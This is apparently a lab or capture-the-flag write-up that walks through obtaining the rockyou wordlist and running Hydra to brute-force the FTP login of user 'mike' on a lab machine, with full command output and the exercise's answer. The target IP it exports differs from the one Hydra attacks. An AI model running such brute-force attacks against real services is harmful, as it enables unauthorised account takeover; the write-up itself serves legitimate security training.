Let's crack some passwords!

***Answer the questions below***

What is the password for the user "mike"?

*Solution:*

First we need the `rockyou.txt` file, since it's not included on Ubuntu.
It's a large archive file about 50MB. Unzipped, it's 133MB.
We extract the archive and move it to `/usr/share/wordlists`.
It needs read permissions to be used by Hydra.

```bash
❯ git clone https://github.com/zacheller/rockyou/
Clonando en 'rockyou'...
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (1/1), done.
remote: Total 7 (delta 0), reused 0 (delta 0), pack-reused 6 (from 1)
Recibiendo objetos: 100% (7/7), 50.84 MiB | 586.00 KiB/s, listo.
Resolviendo deltas: 100% (1/1), listo.
❯ cd rockyou
    .git/    README.md     rockyou.txt.tar.gz
❯ tar -xzvf rockyou.txt.tar.gz
rockyou.txt
❯ sudo mkdir /usr/share/wordlists
❯ sudo cp rockyou.txt /usr/share/wordlists/rockyou.txt
❯ sudo chmod a+r /usr/share/wordlists/rockyou.txt
```

Now we can use Hydra:

```bash
❯ export ip=10.10.64.101 # target machine IP
❯ hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV $ip ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-17 11:24:04
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ftp://10.10.27.72:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.27.72 - login "mike" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.27.72 - login "mike" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.27.72 - login "mike" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.27.72 - login "mike" - pass "password" - 4 of 14344398 [child 3] (0/0)
[21][ftp] host: 10.10.27.72   login: mike   password: password
[STATUS] attack finished for 10.10.27.72 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-17 11:24:09
```

***Correct answer: password***
